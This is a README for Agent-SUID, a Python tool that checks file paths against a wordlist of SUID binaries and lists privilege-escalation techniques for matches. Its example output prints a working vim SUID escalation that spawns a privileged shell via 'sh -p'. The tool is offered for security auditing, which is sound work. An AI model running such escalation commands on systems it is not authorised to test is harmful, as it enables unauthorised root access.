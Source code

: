 # Agent-SUID v1.0

Agent-SUID is a Python script developed by **CyberGhoul** to assist security professionals in identifying potential privilege escalation vectors by discovering SUID binaries on a system. This tool allows users to input paths and checks for matches against a predefined wordlist of SUID binaries.

## Features
- **User Input:** Enter file paths one per line to check for SUID binaries.
- **Wordlist Matching:** Matches the base name of the input paths against a predefined wordlist.
- **Privilege Escalation Techniques:** Displays detailed information on potential privilege escalation techniques for matched binaries.
- **Installation & Uninstallation:** Easily install or uninstall the script to `/usr/local/bin` with superuser permissions.

## Installation

To install the script on your system:

```
sudo python3 agent-suid.py --install
```
This will copy the script to `/usr/local/bin`, making it accessible from anywhere in your terminal.

## Usage

To run the script, use the following command:

```
python3 agent-suid.py
```
Once running, you can input paths to be checked. Press Enter on an empty line to finish inputting paths.

### Command-Line Options:

`--help`: Displays the help message.

`--install`: Installs the script to /usr/local/bin. (Requires sudo permissions)

`--uninstall`: Uninstalls the script from /usr/local/bin. (Requires sudo permissions)

## Example

```
$ agent-suid

Agent-SUID v1.0 by CyberGhoul -  the ultimate tool for discovering SUID binaries on your system. This tool is designed to help security professionals identify potential privilege escalation vectors.
        
Enter paths one per line (press Enter on an empty line to finish):

/bin/ping6
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
/usr/bin/passw
/bin/vim


SUID Binaries Overview: 1 found
Details on privilege escalation techniques:

-------------------------------------------------
vim:
        sudo install -m =xs $(which vim) .
        ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
        
-------------------------------------------------
```
## Uninstallation
To uninstall the script from your system:
```
sudo agent-suid --uninstall
```

## Requirements

- Python 3.x
- Superuser permissions (for installation/uninstallation)

## License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/cyb3rgh0u1/Agent-SUID/blob/main/LICENSE) file for details.
